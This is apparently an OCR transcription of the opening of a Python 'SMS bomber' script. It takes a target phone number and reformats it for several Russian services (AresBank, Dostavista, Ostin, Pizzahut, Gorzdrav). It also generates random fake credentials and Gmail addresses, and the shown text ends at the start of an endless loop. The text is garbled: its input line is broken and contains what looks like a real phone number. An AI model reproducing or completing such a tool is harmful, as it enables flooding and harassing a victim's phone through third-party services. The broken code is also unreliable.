 import threading

import time

import requests, random, datetime, sys, time, argparse, os

print("""

▀▄▀ █░█ █ █▀ █▀█ █▀ █▄░█ █░█ █░░ █ ▀█

█░█ █▄█ █ ▄█ █▄█ ▄█ █░▀█ █▄█ █▄▄ █ ░▄""")

phone = input("\033[32m 0687900193 +'')

def qw(_phone):

    if _phone[0] == '+':

        _phone = _phone[1:]

    if _phone[0] == '8':

        _phone = '7'+_phone[1:]

    if _phone[0] == '9':

        _phone = '7'+_phone

_phone = phone

    _name = ''

    for x in range(12):

        _name = _name + random.choice(list('123456789qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM'))

        password = _name + random.choice(list('123456789qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM'))

        username = _name + random.choice(list('123456789qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM'))

    _phone9 = _phone[1:]

    _phoneAresBank = '+'+_phone[0]+'('+_phone[1:4]+')'+_phone[4:7]+'-'+_phone[7:9]+'-'+_phone[9:11]

    _phone9dostavista = _phone9[:3]+'+'+_phone9[3:6]+'-'+_phone9[6:8]+'-'+_phone9[8:10]

    _phoneOstin = '+'+_phone[0]+'+('+_phone[1:4]+')'+_phone[4:7]+'-'+_phone[7:9]+'-'+_phone[9:11]

    _phonePizzahut = '+'+_phone[0]+' ('+_phone[1:4]+') '+_phone[4:7]+' '+_phone[7:9]+' '+_phone[9:11]

    _phoneGorzdrav = _phone[1:4]+') '+_phone[4:7]+'-'+_phone[7:9]+'-'+_phone[9:11]

    s = 0

    iteration = 0

    while True:

        _email = _name+f'{iteration}'+'@gmail.com'

        email = _name+f'{iteration}'+'@gmail.com'
